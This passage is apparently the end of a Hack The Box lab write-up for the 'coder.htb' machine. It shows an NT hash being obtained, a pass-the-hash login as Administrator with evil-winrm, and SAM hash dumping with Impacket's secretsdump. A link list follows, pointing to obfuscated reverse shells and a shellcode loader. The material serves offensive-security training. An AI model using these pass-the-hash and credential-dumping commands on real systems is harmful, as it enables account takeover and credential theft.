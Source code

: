 ```bash
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@coder.htb': aad3b435b51404eeaad3b435b51404ee:807726fcf9f188adc26eeafd7dc16bb7
```

I can use the hash to login as Administrator via evil-winrm.

```bash
❯ evil-winrm -i 10.129.229.190 -u 'Administrator' -H 807726fcf9f188adc26eeafd7dc16bb7

Evil-WinRM shell v3.5

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
coder\administrator
```

Alternatively, I can also use secretsdump.py from Impacket to dump hashes for all other users.

```bash
❯ secretsdump.py 'coder.htb/Administrator'@coder.htb -outputfile hashes -hashes ':807726fcf9f188adc26eeafd7dc16bb7'
Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b26 - Copyright 2022 Fortra - forked by ThePorgs

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x14fde48e78a860a3522e88d90440ae18
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:88c80d0cbc1a15acec2a8d26a259b623:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
---snip---
---snip---
```

**Pwned!!**



---

# Related Links

- [ilspy-vscode - Visual Studio Marketplace](https://marketplace.visualstudio.com/items?itemName=icsharpcode.ilspy-vscode)
- [RijndaelManaged Class (System.Security.Cryptography) | Microsoft Learn](https://learn.microsoft.com/en-us/dotnet/api/system.security.cryptography.rijndaelmanaged?view=net-8.0)
- [Running Personal Build | TeamCity On-Premises Documentation](https://www.jetbrains.com/help/teamcity/2022.10/personal-build.html#Direct+Patch+Upload)
- [Windows Obfuscated Reverse Shells](https://gist.github.com/AbraXa5/81ec18193f1247628fa90ee9bbfe2f1f)
- [Super User Access | TeamCity On-Premises Documentation](https://www.jetbrains.com/help/teamcity/2022.10/super-user.html)
- [PowerShell – Encrypt and Decrypt using SecureString – Lab Core | The Lab of MrNetTek](https://eddiejackson.net/wp/?p=28189)
- [ConvertTo-SecureString (Microsoft.PowerShell.Security) - PowerShell | Microsoft Learn](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.security/convertto-securestring?view=powershell-7.4)
- [PowerShell: Decrypt a Secure String – SID-500.COM](https://sid-500.com/2022/07/06/powershell-decrypt-a-secure-string/)
- [chvancooten/NimPackt-v1: Nim-based assembly packer and shellcode loader for opsec & profit](https://github.com/chvancooten/NimPackt-v1)